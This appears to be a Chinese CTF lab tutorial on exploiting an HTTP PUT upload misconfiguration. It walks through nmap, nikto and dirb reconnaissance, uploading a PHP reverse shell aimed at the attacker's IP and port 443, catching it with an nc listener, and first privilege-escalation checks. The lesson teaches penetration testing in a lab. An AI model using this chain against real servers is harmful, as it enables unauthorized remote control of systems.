# CTF夺旗赛教程：P21：23.PUT上传漏洞 🚩

在本节课中，我们将要学习CTF比赛中一种常见的漏洞类型——中间件PUT上传漏洞。通过利用该漏洞，攻击者可以直接上传Web Shell到服务器，从而获取系统权限并最终得到Flag值。

## 漏洞概述

中间件PUT漏洞存在于某些Web服务器中间件（如Apache、Tomcat、IIS、WebLogic等）中。这些中间件可以配置支持多种HTTP方法，包括GET、POST、HEAD、DELETE、PUT、OPTIONS等。

每个HTTP方法都有其特定功能。其中，**PUT**方法允许客户端直接上传文件到服务器。如果中间件配置不当，开放了PUT方法且未对上传内容进行严格校验，恶意攻击者就可以利用此方法上传Web Shell到服务器指定目录，从而控制服务器。

## 实验环境搭建

为了演示该漏洞，我们需要搭建一个实验环境。




*   **攻击机**：Kali Linux
    *   IP地址：`192.168.1.111`
*   **靶机**：Linux系统（存在PUT漏洞的Web服务器）
    *   IP地址：`192.168.1.102`

我们的目标是获取靶机的root权限，并找到Flag值。

## 第一步：信息收集与探测

在进行任何攻击操作前，首先需要对目标进行信息收集。我们的目的是全面了解靶机开放的服务和潜在的攻击面。

### 端口扫描

首先，我们使用Nmap扫描靶机开放的所有端口，以发现所有可能的入口点。

以下是扫描命令：
```bash
nmap -T4 -p- 192.168.1.102
```
*   `-T4`：设置扫描速度为“快速”，以缩短等待时间。
*   `-p-`：表示扫描所有65535个端口。

因为扫描所有端口会发送大量数据包，使用`-T4`参数可以提高效率。

### 服务与版本探测

除了端口，我们还需要了解开放端口上运行的具体服务及其版本信息，这有助于寻找已知漏洞。



以下是详细扫描命令：
```bash
nmap -T4 -A -v 192.168.1.102
```
*   `-A`：启用操作系统检测、版本检测、脚本扫描和路由跟踪。
*   `-v`：输出详细扫描过程。



### Web服务敏感信息探测

如果扫描结果显示开放了HTTP服务（如80端口），我们需要进一步探测Web应用的敏感信息。

以下是使用`nikto`和`dirb`工具进行探测的方法：

1.  **使用nikto扫描Web漏洞**：
    ```bash
    nikto -h http://192.168.1.102
    ```
    *   `-h`：指定目标主机。如果HTTP服务运行在默认的80端口，可以省略端口号。

2.  **使用dirb扫描敏感目录**：
    ```bash
    dirb http://192.168.1.102
    ```
    *   `dirb`是一个基于字典的Web目录扫描工具。

## 第二步：信息分析与漏洞发现

在完成初步探测后，我们需要分析收集到的信息，寻找可利用的突破口。

### 分析扫描结果

*   **Nmap端口扫描结果**：发现靶机开放了`22`端口（SSH服务）和`80`端口（HTTP服务）。
*   **Nmap详细扫描结果**：在80端口的服务信息中，发现了中间件类型以及**服务器支持的HTTP方法列表**。这是关键信息。
*   **Nikto扫描结果**：可能提示一些HTTP安全头缺失或PHP版本信息（如PHP 5.3.1），但未发现直接的高危漏洞。
*   **Dirb扫描结果**：发现了一些目录，例如`/test/`。访问该目录可能显示为空或包含有限信息。

### 手动验证PUT漏洞



当自动化工具未发现明显漏洞时，我们需要手动测试。重点测试`dirb`发现的敏感目录（如`/test/`）是否支持PUT方法。

使用`curl`命令测试：
```bash
curl -v -X OPTIONS http://192.168.1.102/test/
```
*   `-v`：显示详细输出。
*   `-X OPTIONS`：发送OPTIONS请求，用于查询服务器支持的HTTP方法。

**关键分析**：观察服务器返回的响应头，查找`Allow`字段。如果该字段的值中包含`PUT`，则证明该目录支持PUT方法，存在PUT上传漏洞的可能性极高。



## 第三步：利用PUT漏洞上传Web Shell



确认存在PUT漏洞后，下一步就是利用它上传一个Web Shell。Web Shell是一段恶意脚本，可以让我们通过Web接口执行系统命令。



### 准备Web Shell

我们使用一个简单的PHP反弹Shell脚本。首先在Kali上创建该文件。

1.  切换到桌面目录并创建文件：
    ```bash
    cd /root/Desktop
    cp /usr/share/webshells/php/php-reverse-shell.php ./shell.php
    ```
2.  编辑`shell.php`文件，设置反弹连接的IP和端口：
    ```bash
    gedit shell.php
    ```
    *   找到`$ip`变量，将其值改为攻击机的IP：`192.168.1.111`
    *   找到`$port`变量，将其值改为一个监听端口，例如`443`（常用端口，可能绕过防火墙）。
    *   保存并关闭编辑器。







### 上传Web Shell



我们可以使用浏览器插件（如Postman）或`curl`命令来上传文件。这里以图形化方式为例：

1.  在浏览器中打开插件，选择PUT方法。
2.  URL地址填写：`http://192.168.1.102/test/shell.php`
3.  在Body部分，选择“文件”并上传刚编辑好的`shell.php`文件。
4.  发送请求。如果返回`201 Created`或`200 OK`状态码，说明上传成功。
5.  访问`http://192.168.1.102/test/`目录，确认`shell.php`文件已存在。

### 建立监听并触发Shell

上传成功后，我们需要在攻击机上监听指定端口，等待靶机连接回来。





1.  **在攻击机开启监听**：
    ```bash
    nc -nlvp 443
    ```
    *   `-nlvp`：无DNS解析、监听模式、显示详细输出、指定端口。

2.  **触发Web Shell**：在浏览器中直接访问上传的Web Shell文件地址：`http://192.168.1.102/test/shell.php`。此时，该PHP脚本会在靶机上执行，并尝试反向连接到攻击机的`443`端口。



3.  **获取Shell**：如果一切顺利，你将在`nc`监听窗口中看到连接成功的提示，并获得一个来自靶机的命令行Shell。

## 第四步：权限提升初步

成功反弹Shell后，我们通常获得的只是一个普通用户权限（例如`www-data`用户）的Shell。

我们可以使用以下命令检查当前权限：
```bash
id
whoami
```
为了完全控制靶机并读取Flag（通常位于`/root`目录下），我们需要将权限提升至`root`。权限提升（Privilege Escalation）涉及更多技术，将在后续课程中详细讲解。一个常见的方法是尝试利用系统漏洞或配置错误，例如使用`sudo -l`查看当前用户能免密执行哪些命令，或者寻找具有SUID权限的可执行文件。



## 总结

本节课我们一起学习了PUT上传漏洞的完整利用流程：

1.  **信息收集**：使用Nmap、Nikto、Dirb等工具扫描目标，发现开放服务、敏感目录。
2.  **漏洞发现**：通过分析扫描结果，手动测试敏感目录是否支持危险的HTTP PUT方法。
3.  **漏洞利用**：利用PUT方法直接上传一个Web Shell脚本到服务器。
4.  **获取访问权限**：在攻击机设置监听，通过访问Web Shell触发反向连接，从而获得一个远程命令执行Shell。
5.  **后续行动**：初步检查当前权限，为下一步的权限提升做准备。

PUT漏洞的利用核心在于**目标服务器配置不当，允许了不安全的HTTP方法**。在CTF比赛和实际安全评估中，对Web服务器进行全面的方法测试是一项重要内容。请记住，获得初始Shell只是第一步，后续的权限维持和提升同样关键。